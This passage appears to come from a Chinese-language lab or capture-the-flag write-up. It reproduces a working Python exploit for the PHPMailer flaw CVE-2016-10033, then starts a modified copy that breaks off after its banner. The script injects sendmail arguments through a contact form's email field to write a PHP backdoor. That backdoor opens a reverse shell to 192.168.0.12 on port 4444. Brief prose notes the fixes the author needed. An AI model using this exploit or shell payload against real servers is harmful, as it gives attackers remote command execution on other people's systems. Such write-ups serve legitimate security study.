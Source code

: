 ```
from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

os.system('clear')
print("\n")
print(" █████╗ ███╗   ██╗ █████╗ ██████╗  ██████╗ ██████╗ ██████╗ ███████╗██████╗ ")
print("██╔══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔══██╗")
print("███████║██╔██╗ ██║███████║██████╔╝██║     ██║   ██║██║  ██║█████╗  ██████╔╝")
print("██╔══██║██║╚██╗██║██╔══██║██╔══██╗██║     ██║   ██║██║  ██║██╔══╝  ██╔══██╗")
print("██║  ██║██║ ╚████║██║  ██║██║  ██║╚██████╗╚██████╔╝██████╔╝███████╗██║  ██║")
print("╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝")
print("      PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com")
print(" Version 1.0 - github.com/anarcoder - greetings opsxcq & David Golunski\n")

target = 'http://localhost:8080'
backdoor = '/backdoor.php'

payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'192.168.0.12\\\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'
fields={'action': 'submit',
        'name': payload,
        'email': '"anarcoder\\\" -OQueueDirectory=/tmp -X/www/backdoor.php server\" @protonmail.com',
        'message': 'Pwned'}

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

proxies = {'http': 'localhost:8081', 'https':'localhost:8081'}

print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(target, data=m.to_string(),
                  headers=headers)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get(target+backdoor, headers=headers)
if r.status_code == 200:
    print('[+]  ExPLoITeD ' + target)
```

发现这个漏洞，但它有一些问题。该漏洞似乎将 post 请求发送到 web 服务器的根目录，但我们在`/contact.php`中有一个联系表单，在该表单之后的字段中缺少一个命名主题的参数。最重要的是，验证部分似乎也不工作，所以我不得不拿出我自己的。

总结我的功绩看起来像这样。

```
from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

os.system('clear')
print("\n")
print(" █████╗ ███╗   ██╗ █████╗ ██████╗  ██████╗ ██████╗ ██████╗ ███████╗██████╗ ")
print("██╔══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔══██╗")
print("███████║██╔██╗ ██║███████║██████╔╝██║     ██║   ██║██║  ██║█████╗  ██████╔╝")
print("██╔══██║██║╚██╗██║██╔══██║██╔══██╗██║     ██║   ██║██║  ██║██╔══╝  ██╔══██╗")
```